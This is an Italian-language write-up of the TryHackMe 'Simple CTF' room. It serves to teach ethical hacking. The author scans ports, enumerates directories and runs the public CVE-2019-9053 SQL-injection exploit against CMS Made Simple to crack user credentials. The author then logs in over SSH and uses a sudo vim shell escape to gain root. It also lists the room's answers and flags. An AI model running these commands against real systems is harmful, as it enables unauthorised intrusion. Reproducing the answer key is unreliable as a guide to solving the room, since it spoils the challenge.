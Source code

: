 # Simple CTF

Benvenuto alla sfida "Simple CTF" su TryHackMe! Nonostante la sua descrizione minimale, questa CTF è progettata per guidarti attraverso alcune delle competenze fondamentali richieste in molte competizioni di hacking, fornendo un'esperienza ideale per i principianti.

La sfida "Simple CTF" è un ambiente sicuro e controllato che ti permette di esplorare e padroneggiare le competenze essenziali delle CTF. Il percorso include fasi cruciali come la scansione e l'enumerazione, la ricerca di vulnerabilità, lo sfruttamento e l'escalation dei privilegi.

**Cosa aspettarti**:

**Scansione ed Enumerazione**: Utilizza strumenti di scansione per identificare i servizi in esecuzione sulla macchina bersaglio e raccogli informazioni cruciali per avanzare nella tua missione.

**Ricerca**: Scava nella profondità del sistema per individuare punti deboli e vulnerabilità nascoste. La ricerca è la chiave per trovare le vie di accesso.

**Sfruttamento**: Una volta individuate le debolezze, metti in pratica le tue abilità di sfruttamento per guadagnare l'accesso non autorizzato. Affina la tua abilità nell'arte dell'hacking etico.

**Escalation dei Privilegi**: Supera le sfide aggiuntive che possono sorgere una volta ottenuto l'accesso. L'escalation dei privilegi ti aiuterà a ottenere il controllo completo del sistema.

**Obiettivi**:

- Trova e sfrutta le vulnerabilità.
- Raccogli le informazioni necessarie per completare la sfida.
- Scala i privilegi per ottenere il controllo totale.

e rispondi a tutte le domande...

Ricorda, questa CTF è pensata per i principianti, quindi non preoccuparti se sei alle prime armi. Utilizza questa opportunità per migliorare le tue abilità e diventare un esperto nell'arte dell'hacking etico. Buona fortuna, e che l'avventura inizi!

## SOLUZIONE 
_per completare la stanza rispetterò l'ordine delle domande_

Per iniziare provo a fare una scansione delle porte aperte, questo approccio mi è indicato dalla prima domanda

```sh
└─$ nmap -p- -sS -A 10.10.248.183
```
l'output indica che ci sono 3 porte aperte:
- Port 21 (Servizio FTP): Il server FTP vsftpd 3.0.3 è in esecuzione, consentendo l'accesso anonimo.
- Port 80 (Servizio HTTP): Apache httpd 2.4.18 è in esecuzione su Ubuntu, con una pagina predefinita che indica il funzionamento di Apache e un file robots.txt con voci disallow.
-  Port 2222 (Servizio SSH): OpenSSH 7.2p2 è in esecuzione su Ubuntu 4ubuntu2.8 sulla porta 2222/tcp.

![Alt text](img/image.png)
```diff
- Quanti servizi sono in esecuzione sotto la porta 1000?
```
$${\color{red}Quanti servizi sono in esecuzione sotto la porta 1000?}$$
$${\color{green}2}$$

<span class="Q">
Quanti servizi sono in esecuzione sotto la porta 1000?
</span>
<span class="A">
2
</span>

<span class="Q">
Cosa è in esecuzione sulla porta superiore?
</span>
<span class="A">
SSH
</span>

L'output di Nmap ci viene di nuovo in aiuto fornendoci anche la risposta della seconda domanda

Ora è necessario raccogliere qualche informazine in più.

sappiamo che la porta 80 espone un Apache quindi proviamo a visitare il sito

![Alt text](img/image-1.png)

abbiamo la conferma che il server Web è un Apache2 come indicato da Nmap.

ora provo con gobuster a fare una scansione del sito alla ricerca di altre pagine.

ho utilizzato DirBuster con la wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

è possibile anche usare GoBuster; lascio per completezza il comando:
```sh
└─$ gobuster dir -u http://10.10.248.183:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 
```
**dir** cerca solo le cartelle
**-u** è l'url
**-w** è la wordlist
**-t** sono i threads

![Alt text](img/image-2.png)

ho trovato molte directory e file; visiterò /simple/ nella quale c'è index.php

![Alt text](img/image-3.png)

la pagina è riferita ad un CMS chiamato CMS Made Simple. in fondo alla pagina è possibile vedere la versione.

![Alt text](img/image-4.png)

direi che è possibile fare una ricerca su google inserendo qualcosa del genere "_CMS Made Simple version 2.2.8 exploit_"

Il primo link di google è di exploit-db: https://www.exploit-db.com/exploits/46635

![Alt text](img/image-5.png)

questa pagina ci fa rispondere alle successive 2 domande

<span class="Q">
Qual è il CVE che stai usando contro l'applicazione?
</span>
<span class="A">
CVE-2019-9053
</span>

<span class="Q">
A che tipo di vulnerabilità è vulnerabile l'applicazione?
</span>
<span class="A">
SQLi
</span>

l'exploit è uno stript in python quindi lo ho capiato e incollato in un file .py

per comodità l'ho chiamato con il nome del CVE 
```sh
└─$ nano CVE-2019-9053.py
```
dando un'occhiata veloce al codice vengono importati dei moduli che sono per lo più built-in.
I moduli da installare sono: **termcolor** e **requests**.

quindi all'interno della directory in cui si trova il file .py installo un venv
```sh
└─$ python3 -m venv venv 
```
e successivamente lo attivo
```sh
└─$ source ./venv/bin/activate
```
ora posso installare termcolor e requests senza rischiare un confiltto di versioni, ma sopratutto senza sporcare la mia Kali.
```sh
└─$ pip install termcolor requests
```
Ora provo a eseguirlo e vediamo cosa ottengo in cambio. Se non si conosce la sintassi, si può eseguire lo script senza argomenti e ti darà alcune informazioni su cosa inserire, una sorta di Help.

![Alt text](img/image-6.png)

Qui possiamo vedere che abbiamo bisogno di fornire: 
- URL usando il flag -u 
- una wordlist per il cracking delle password usando -w.
```sh
└─$ python CVE-2019-9053.py -u http://10.10.248.183/simple/ --crack -w /usr/share/wordlists/rockyou.txt 
```
Ora, eseguiamolo e vediamo cosa otteniamo in cambio.

Il risultato è che abbiamo trovato:
```output
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
quindi possiamo rispondere alle seguenti domande:

<span class="Q">
Qual è la password?
</span>
<span class="A">
secret
</span>

<span class="Q">
Dove si può accedere con i dati ottenuti?
</span>
<span class="A">
SSH
</span>

ovviamente proverò subito ad eseguire l'accesso tramite SSH

![Alt text](img/image-7.png)

Bingo!

Ora vediamo dove sono e cosa c'è nella home del utente mitch

![Alt text](img/image-8.png)

quindi posso rispondere alla domanda:

<span class="Q">
Qual è il flag dell'utente?
</span>
<span class="A">
G00d j0b, keep up!
</span>

è facile rispondere anche a quella dopo dopo:
<span class="Q">
C'è qualche altro utente nella home directory? Come si chiama?
</span>
<span class="A">
sunbath
</span>

![Alt text](img/image-9.png)

per generare una shell con privilegi è necessario fare un paio di ricerche su google. Ma prima ho bisogno di conoscere se l'utente mitch può eseguire dei binari senza password.
per fare questo posso vedere quali binari sono consentiti a mitch con il comando:
```sh
└─$ sudo -l
```
![Alt text](img/image-10.png)

<span class="Q">
Cosa puoi sfruttare per generare una shell privilegiata?
</span>
<span class="A">
vim
</span>

Posso vedere che l'utente "mitch" può eseguire /usr/bin/vim senza una password. Questa informazione mi servirà per rispondere all'ultima domanda.

Diamo un'occhiata a GTFOBins e vediamo se possiamo usarlo per privesc.

![Alt text](img/image-11.png)
url: https://gtfobins.github.io/gtfobins/vim/

La documentazione dice che se eseguo questo comando qui posso aumentare i miei privilegi!

```sh
└─$ sudo vim -c ':!/bin/sh'
```
![Alt text](img/image-12.png)

<span class="Q">
Che cos'è il flag di radice?
</span>
<span class="A">
W3ll d0n3. You made it!
</span>

Finita!!!

<style>
    .Q {
        font-weight: bold;
        color: red;}
    .A {
    font-weight: bold;
    color: Green;}
</style>
